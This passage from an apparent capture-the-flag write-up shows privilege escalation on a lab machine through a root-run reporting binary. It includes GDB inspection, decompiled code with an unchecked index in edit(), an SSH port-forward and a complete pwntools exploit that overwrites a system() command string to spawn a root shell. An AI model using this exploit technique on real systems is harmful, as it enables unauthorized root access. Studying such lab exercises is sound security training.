Custom Reporting v1

Enter Your Token: AAAAAAAAAAAAAs
Enter Name: test

Welcome test
1.Create New Message
2.Delete a Message
3.Edit Messages
4.Report All Messages
5.Exit
>
```

Lets run with GDB and debug:
```bash
$ gdb nreport
pwndbg> run
Starting program: /home/caue/htb/overgraph/binary/nreport 
Custom Reporting v1

Enter Your Token: AAAAAAAAAAAAAs
Enter Name: caue

Welcome caue
1.Create New Message
2.Delete a Message
3.Edit Messages
4.Report All Messages
5.Exit
>
(CTRL + C)

pwndbg> x/40s &userinfo1
0x404180 <userinfo1>:   "caue"
...[SNIP]...
0x4041a8 <userinfo1+40>:        "echo \"Last Used On $(date)\" >> /var/log/kreport"
...[SNIP]...
```

Analysing the `userinfo` we see the name we entered and a string that calls system.
Maybe we could put the address `0x4041a8` as our name in the program, then use the `edit()` function to overwrite the `Last Used On $(date)\` to `/bin/sh`.

We are lucky because the `edit()` function do not check for the index and we can edit addresses:
```c edit()
void edit(void)

{
  long in_FS_OFFSET;
  int local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  if (Arryindex == 0) {
    puts("No Message Created");
  }
  else {
    printf("Enter number to edit: ");
    __isoc99_scanf("%d[^\n]",&local_14);
    printf("Message Title: ");
    __isoc99_scanf(" %59[^\n]",*(undefined8 *)(message_array + (long)local_14 * 8));
    printf("Message: ");
    __isoc99_scanf("%100[^\n]",*(long *)(message_array + (long)local_14 * 8) + 0x3c);
    fflush(stdin);
    fflush(stdout);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

### Exploit
We can use SSH to forward the port of the binary running as root:
```bash
$ ssh -i user.idrsa user@10.10.11.157 -L 9851:127.0.0.1:9851
```

Python script to exploit the binary:
```python exploit.py
#!/usr/bin/env python3
from pwn import *

context.clear(arch='amd64', os='linux')
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'info'

def create(data):
    log.info('Creating a new message')
    io.recvuntil(b'5.Exit')
    io.sendline(b'1')
    io.recvlines(5)
    io.sendline(data)

def edit(data):
    log.info('Editing the message of index 12')
    io.recvuntil(b'5.Exit')
    io.sendline(b'3')
    io.recvline(1)
    io.sendline(b'12')
    io.sendline(data)

def exit_1():
    log.info('Exiting now...')
    io.recvuntil(b'5.Exit')
    io.sendline(b'5')

io = remote("127.0.0.1",9851)
#io = process("./nreport")

io.recvlines(2)
io.sendline(b'AAAAAAAAAAAAAs')
io.sendline(p64(0x4041a8))

create(b'A'*160)
edit(b'/bin/bash')
exit_1()
io.interactive()
```

For some reason after executing the python script I couldn't get output of the system commands, so I sent myself a reverse shell from the `pwndbg` interactive session:

